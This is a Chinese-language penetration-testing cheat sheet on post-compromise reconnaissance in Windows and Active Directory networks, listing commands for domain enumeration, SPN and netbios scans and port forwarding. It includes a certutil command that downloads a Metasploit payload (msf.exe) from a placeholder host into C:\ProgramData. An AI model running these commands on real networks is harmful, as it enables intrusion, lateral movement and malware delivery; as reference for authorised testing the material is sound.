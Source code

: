```yaml
---
title: Windows漫游
author: Admin
date: 2020-07-4 15:39:00 +0800
categories: [渗透测试, 内网]
tags: [MSF, Windows, Active Directory]
---
```


# 开宗明义
本篇文章不讲原理，仅介绍利用方式。

难记命令速查表

```shell
# 信息收集
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24		#netbios扫描
setspn -T domain -Q */*		#spn扫描
nslookup -type=svn _ldap._tcp.dc._msdcs.domain.com		#定位域控
nltest /domain_trusts		#域信任
type C:\Windows\system32\drivers\etc\hosts		#hosts信息

#端口转发
netsh interface portproxy add v4tov4 listenport=80 connectport=445 connectaddress=192.168.1.1 protocol=tcp		#本机监听80端口，转发192.168.1.1:445流量


# 文件下载
cmd.exe /c certutil -urlcache -split -f http://ip:port/msf.exe C:\ProgramData\a.exe
```

# 信息收集
当打下某点后，应该进行以下信息收集：

1. 网络架构
2. 敏感信息

## 目标网络架构

### 是否出网

```shell
ping qq.com		#检测DNS是否解析，ICMP流量是否出网。
certutil -urlcache -split -f http://ip:port/msf.exe		#TCP、HTTP流量是否出网
nslookup qq.com 8.8.8.8		#UDP、DNS流量是否出网
```

### 网卡情况

判断是否多网卡

```shell
ipconfig /all
```

### 路由表

多网卡流量走向等信息

```shell
route print
```

### 端口信息

查看本机监听端口，以及其他主器与本机链接情况。

```shell
netstat -ao
```
常用参数：

* -a 显示全部
* -n 显示具体IP，不加显示hostname
* -o 显示PID

详细文档：https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat

### arp表

列当前子网存活

```shell
arp -a
```

### 本机hosts信息

某些VPN会写该文件

```shell
type C:\Windows\system32\drivers\etc\hosts
```

### DNS缓存

返回结果过长可以重定向到文件。

```shell
ipconfig /displaydns
```

### DNS域传送
```shell
nslookup
> server dns.domain.com
> ls domain.com
```

### 是否在域
```shell
#不带选项会显示当前域或工作组的计算器列表
net view
net view /domain[:domainname]

#定位域控制器
net group "domain controllers" /domain
nslookup -type=svn _ldap._tcp.dc._msdcs.domain.com
net time /domain
```

### SPN扫描

服务主体名称（`SPN: Service Principal Names`），当服务加入域时会自动注册。通过LDAP协议查询该信息，快速梳理运行重要服务的主机。

```
setspn -T domain -Q */*		#不加 -T 参数查询当前域，普通域用户权限
```

### 域信任

```shell
nltest /domain_trusts
```

### netbios扫描

获取主机名信息，以及定位找到多网卡主机。

```shell
# nmap
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24

# msf
use auxiliary/scanner/netbios/nbname

# nextnet
nextnet 192.168.0.0/12
```
> nextnet github: https://github.com/hdm/nextnet

### 全端口扫描器推荐

Goby: https://gobies.org/

## 敏感信息

### 用户
```shell
net user		#全部用户
query session		#用户登陆情况

net user /domain		#查看域用户
net group "domain admins" /domain 域管
```


----
咕咕咕...
